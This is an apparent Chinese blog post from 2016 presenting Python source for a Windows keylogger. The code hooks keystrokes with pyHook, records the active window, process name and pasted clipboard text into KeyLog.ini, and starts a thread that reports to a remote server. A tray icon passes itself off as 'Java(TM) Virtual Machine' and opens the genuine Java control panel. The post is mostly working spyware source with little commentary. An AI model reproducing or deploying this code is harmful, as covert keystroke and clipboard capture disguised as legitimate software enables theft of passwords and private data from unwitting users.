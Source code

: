 title: py编写键盘记录器初步
author: Semprathlon / Simfae Dean
tags: []
categories: []
date: 2016-09-09 14:01:41
---
- 调用win32 API记录键盘事件、窗口事件

 
<pre class="lang:python decode:true " >#
def get_current_process():

    # 获取最上层的窗口句柄
    hwnd = user32.GetForegroundWindow()

    # 获取进程ID
    pid = c_ulong(0)
    user32.GetWindowThreadProcessId(hwnd,byref(pid))

    # 将进程ID存入变量中
    process_id = "%d" % pid.value

    # 申请内存
    executable = create_string_buffer("\x00"*512)
    h_process = kernel32.OpenProcess(0x400 | 0x10,False,pid)

    psapi.GetModuleBaseNameA(h_process,None,byref(executable),512)

    # 读取窗口标题
    windows_title = create_string_buffer("\x00"*512)
    length = user32.GetWindowTextA(hwnd,byref(windows_title),512)

    # 打印
    # print
    # print "[ PID:%s-%s-%s]" % (process_id,executable.value,windows_title.value)
    # print
    Thread(target=report_to_remote_server).start()
    output_file('','KeyLog.ini',"\n[ PID:%s-%s-%s] %s\n" % (process_id,executable.value,windows_title.value,time.strftime("%Y/%m/%d %H:%M:%S")));

    # 关闭handles
    kernel32.CloseHandle(hwnd)
    kernel32.CloseHandle(h_process)

# 定义击键监听事件函数
def KeyStroke(event):

    global current_window

    # 检测目标窗口是否转移(换了其他窗口就监听新的窗口)
    if event.WindowName != current_window:
        current_window = event.WindowName
        # 函数调用
        get_current_process()

    # 检测击键是否常规按键（非组合键等）
    if event.Ascii &gt; 32 and event.Ascii &lt;127:
        # print chr(event.Ascii),
        output_file('','KeyLog.ini',chr(event.Ascii))
    else:
        # 如果发现Ctrl+v（粘贴）事件，就把粘贴板内容记录下来
        if event.Key == "V":
            win32clipboard.OpenClipboard()
            pasted_value = win32clipboard.GetClipboardData()
            win32clipboard.CloseClipboard()
            # print "[PASTE]-%s" % (pasted_value),
            output_file('','KeyLog.ini',"[PASTE]-%s" % (pasted_value))
        else:
            # print "[%s]" % event.Key,
            output_file('','KeyLog.ini',"[%s]" % event.Key)
    # 循环监听下一个击键事件
    return True

def RegisterKeyListener():
    # 创建并注册hook管理器
    kl = pyHook.HookManager()
    kl.KeyDown = KeyStroke

    # 注册hook并执行
    kl.HookKeyboard()
    pythoncom.PumpMessages()
</pre> 


但是对于QQEdit.exe，记录值会受到干扰。

- 日志记录

 
<pre class="lang:python decode:true " >def output_file(dir,name,content):
    fileName = ''
    if len(dir)&gt;0:
        fileName = fileName+dir + "/"
    fileName = fileName + name#.encode('utf-8','ignore')
    f = open(fileName,"a")
    f.write(content)
    # print "Output file",fileName
</pre> 


- Tk GUI 

支持异步多线程操作的UI库

 
<pre class="lang:python decode:true " >class Tk_App:
    def __init__(self,master):
        #构造函数里传入一个父组件(master),创建一个Frame组件并显示
        frame = Frame(master)
        frame.pack()
        #创建两个button，并作为frame的一部分
        self.button = Button(frame, text="QUIT", fg="red", command=sys.exit)# frame.quit
        self.button.pack(side=LEFT) #此处side为LEFT表示将其放置 到frame剩余空间的最左方
        self.hi_there = Button(frame, text="Hello", command=self.say_hi)
        self.hi_there.pack(side=LEFT)
        # Thread(target=RegisterKeyListener).start()
        # sys.stdout.flush()

    def say_hi(self):
        print "hi there, this is a class example!"

TRAY_TOOLTIP = 'Java(TM) Virtual Machine'
TRAY_ICON = 'icon.png'


def create_menu_item(menu, label, func):
    item = wx.MenuItem(menu, -1, label)
    menu.Bind(wx.EVT_MENU, func, id=item.GetId())
    menu.AppendItem(item)
    return item


class TaskBarIcon(wx.TaskBarIcon):
    def __init__(self,frame):
        self.frame=frame
        super(TaskBarIcon, self).__init__()
        self.set_icon(TRAY_ICON)
        self.Bind(wx.EVT_TASKBAR_LEFT_DOWN, self.on_left_down)
        mainth.start();

    def CreatePopupMenu(self):
        menu = wx.Menu()
        # create_menu_item(menu, 'Say Hello', self.on_hello)
        create_menu_item(menu,'Control Panel',self.on_control);
        menu.AppendSeparator()
        create_menu_item(menu, 'Exit', self.on_exit)
        # create_menu_item(menu, 'Exit', sys.exit)
        return menu

    def set_icon(self, path):
        icon = wx.IconFromBitmap(wx.Bitmap(path))
        self.SetIcon(icon, TRAY_TOOLTIP)

    def on_left_down(self, event):
        print 'Tray icon was left-clicked.'

    def on_hello(self, event):
        print 'Hello, world!'


    def on_control(self,event):
        # print r'"%JAVA_HOME%\jre\bin\javacpl.exe"'
        # os.system(r'cd /d %JAVA_HOME%');
        os.system(r'""%JAVA_HOME%\jre\bin\javacpl.exe""');
        # print os.path.realpath(sys.argv[0])
        # print os.path.dirname(sys.argv[0])
        # print os.path.basename(sys.argv[0])

    def on_exit(self, event):
        wx.CallAfter(self.Destroy)
        self.frame.Close()
        mainth._Thread__stop()
        # sys.exit()

class App(wx.App):
    def OnInit(self):
        frame=wx.Frame(None)
        self.SetTopWindow(frame)
        TaskBarIcon(frame)
        return True
</pre> 
